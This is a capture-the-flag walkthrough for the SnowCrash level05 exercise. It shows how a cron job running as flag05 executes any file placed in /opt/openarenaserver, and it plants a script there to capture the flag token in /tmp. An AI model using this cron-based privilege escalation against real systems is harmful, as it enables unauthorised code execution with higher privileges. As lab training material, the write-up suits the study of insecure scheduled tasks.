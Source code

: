 ## Level 05

## Clues


Upon the connexion to the level05 user we have this :
```
You have new mail.
level05@SnowCrash:~$
```

Lets check what's inside :

```
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

This is clearly the clue for the flag, it appear to be a crontab.

It execute the command :
```
sh /usr/sbin/openarenaserver
```

Every 2 minute, as the user flag05, by using ***su - flag05***

Lets check what is the command its executing :

```
level05@SnowCrash:~$ /usr/sbin/openarenaserver
-bash: /usr/sbin/openarenaserver: Permission denied
```

We dont have right to execute it, so lets check what's inside :

```
level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```

Its a Shell script that takes everything in the ***/opt/openarenaserver/*** folder, execute it, and delete it.

We know this script is executed as flag05, so the answer is obvious, we are going to make it run the getflag command.


## Solution

We are going to write a script in the ***/opt/openarenaserver/*** folder, that is going to execute getflag and redirect the output where its not going to be deleted by the automated script, and where we have hands on it, like /tmp.


```
level05@SnowCrash:~$ cd /opt/openarenaserver/
level05@SnowCrash:/opt/openarenaserver$ echo "echo \`getflag\` > /tmp/present.txt" > script.sh
```

So now, we are going to wait 2 minute, and it should execute our script, and then delete everything in this folder, but we should have the output stored in /tmp.

Lets wait .... :

```
level05@SnowCrash:/opt/openarenaserver$ ls
level05@SnowCrash:/opt/openarenaserver$ cat /tmp/present.txt
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

Folder is empty, this mean that the automated script just executed, and then tada ! It gave us our flag.

Im sure there is a lot more ways to get that flag, but this method works very well.

## What i learned

Writing crontab can be very dangerous, its very important to sanitize those very well.

More curiosity
